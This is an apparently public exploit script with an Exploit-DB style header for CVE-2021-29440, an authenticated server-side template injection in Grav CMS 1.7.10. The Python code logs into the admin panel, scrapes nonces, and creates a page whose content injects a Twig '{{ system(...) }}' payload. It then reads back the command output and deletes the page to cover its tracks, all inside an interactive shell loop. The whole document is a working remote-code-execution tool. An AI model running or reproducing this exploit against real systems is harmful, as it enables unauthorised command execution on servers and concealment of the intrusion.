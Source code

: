 EXP
---

    # Title: Grav CMS 1.7.10 - Server-Side Template Injection (SSTI) (Authenticated)
    # Author: enox
    # Date: 06-06-2021
    # Vendor: https://getgrav.org/
    # Software Link: https://getgrav.org/download/core/grav-admin/1.7.10
    # Vulnerable Version(s): Grav CMS 1.7.10
    # CVE: CVE-2021-29440
    # Credits: https://blog.sonarsource.com/grav-cms-code-execution-vulnerabilities
    # NOTES: You need a user who has access to /admin dashboard with page creation privileges.

    #!/usr/bin/python

    import requests
    from bs4 import BeautifulSoup
    import random
    import string


    username = 'username'
    password = 'password'
    url = 'http://grav.local'


    session = requests.Session()

    # Autheticating
    ## Getting login-nonce
    def login(url,username,password):
        r = session.get(url + "/admin")
        soup = BeautifulSoup(r.text, features="lxml")
        nonce = str(soup.findAll('input')[2])
        nonce = nonce[47:79]

        ## Logging in
        payload =f'data%5Busername%5D={username}&data%5Bpassword%5D={password}&task=login&login-nonce={nonce}'
        headers = {'Content-Type': 'application/x-www-form-urlencoded'}
        r = session.post(url+"/admin",data=payload,headers=headers)


    # Creating Page for RCE

    def rce(url,cmd):
        ## Getting form nonce and unique form id
        project_name = ''.join(random.choices(string.ascii_uppercase + string.digits, k = 8))
        r = session.get(url+f"/admin/pages/{project_name}/:add")
        soup = BeautifulSoup(r.text, features="lxml")
        nonce = str(soup.findAll('input')[72])
        form_id = str(soup.findAll('input')[71])
        form_id = form_id[54:86]
        nonce = nonce[46:78]

        ## Creating Page
        headers = {'Content-Type': 'application/x-www-form-urlencoded'}
        payload = f'task=save&data%5Bheader%5D%5Btitle%5D={project_name}&data%5Bcontent%5D=%7B%7B+system%28%27{cmd}%27%29+%7D%7D&data%5Bfolder%5D={project_name}&data%5Broute%5D=&data%5Bname%5D=default&data%5Bheader%5D%5Bbody_classes%5D=&data%5Bordering%5D=1&data%5Border%5D=&toggleable_data%5Bheader%5D%5Bprocess%5D=on&data%5Bheader%5D%5Bprocess%5D%5Btwig%5D=1&data%5Bheader%5D%5Border_by%5D=&data%5Bheader%5D%5Border_manual%5D=&data%5Bblueprint%5D=&data%5Blang%5D=&_post_entries_save=edit&__form-name__=flex-pages&__unique_form_id__={form_id}&form-nonce={nonce}&toggleable_data%5Bheader%5D%5Bpublished%5D=0&toggleable_data%5Bheader%5D%5Bdate%5D=0&toggleable_data%5Bheader%5D%5Bpublish_date%5D=0&toggleable_data%5Bheader%5D%5Bunpublish_date%5D=0&toggleable_data%5Bheader%5D%5Bmetadata%5D=0&toggleable_data%5Bheader%5D%5Bdateformat%5D=0&toggleable_data%5Bheader%5D%5Bmenu%5D=0&toggleable_data%5Bheader%5D%5Bslug%5D=0&toggleable_data%5Bheader%5D%5Bredirect%5D=0&data%5Bheader%5D%5Bprocess%5D%5Bmarkdown%5D=0&toggleable_data%5Bheader%5D%5Btwig_first%5D=0&toggleable_data%5Bheader%5D%5Bnever_cache_twig%5D=0&toggleable_data%5Bheader%5D%5Bchild_type%5D=0&toggleable_data%5Bheader%5D%5Broutable%5D=0&toggleable_data%5Bheader%5D%5Bcache_enable%5D=0&toggleable_data%5Bheader%5D%5Bvisible%5D=0&toggleable_data%5Bheader%5D%5Bdebugger%5D=0&toggleable_data%5Bheader%5D%5Btemplate%5D=0&toggleable_data%5Bheader%5D%5Bappend_url_extension%5D=0&toggleable_data%5Bheader%5D%5Broutes%5D%5Bdefault%5D=0&toggleable_data%5Bheader%5D%5Broutes%5D%5Bcanonical%5D=0&toggleable_data%5Bheader%5D%5Broutes%5D%5Baliases%5D=0&toggleable_data%5Bheader%5D%5Badmin%5D%5Bchildren_display_order%5D=0&toggleable_data%5Bheader%5D%5Blogin%5D%5Bvisibility_requires_access%5D=0'
        r = session.post(url+f"/admin/pages/{project_name}/:add",data=payload,headers=headers)

        ## Getting command output
        r = session.get(url+f"/{project_name.lower()}")
        if 'SyntaxError' in r.text:
            print("[-] Command error")
        else:
            a = r.text.split('<section id="body-wrapper" class="section">')
            b = a[1].split('</section>')
            print(b[0][58:])


        # Cleaning up
        ## Getting admin-nonce
        r = session.get(url + "/admin/pages")
        soup = BeautifulSoup(r.text, features="lxml")
        nonce = str(soup.findAll('input')[32])
        nonce = nonce[47:79]

        ## Deleting Page
        r = session.get(url+f"/admin/pages/{project_name.lower()}/task:delete/admin-nonce:{nonce}")

    login(url,username,password)

    while True:
        cmd = input("$ ")
        rce(url,cmd)